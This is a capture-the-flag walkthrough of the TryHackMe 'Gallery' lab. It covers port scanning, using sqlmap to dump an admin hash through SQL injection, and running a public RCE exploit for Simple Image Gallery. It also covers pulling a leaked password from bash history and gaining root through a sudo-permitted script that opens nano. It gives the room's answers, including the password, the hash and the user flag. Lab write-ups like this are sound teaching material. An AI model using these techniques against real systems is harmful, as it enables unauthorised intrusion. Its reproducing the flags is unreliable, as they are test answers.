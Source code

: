 # Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>



<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

We have 3 open ports in the server, now we got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, we get an apache ubuntu default page, this doesn't help much.. 
but we noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that we get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
Login page maybe got some SQL injection vulnerability!
Running sqlmap we can see it detected that the username paramater is vulnerable to an sql injection attack, now we could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, we have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. It successfully gave me a shell on the target system!
<br><br>
Only the user "mike" can read the user.txt, so we have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he did a typo, and revealed his password in the bash history
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to his account with mikes password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

<hr>

<h3>5. Question: What's the root flag?</h3>
I ran sudo -l and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of it?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can read any file on the system, and if we go with the /root/root.txt
it will paste the root flag in to the nano editor
<br>
<img src = "rootflag.png">
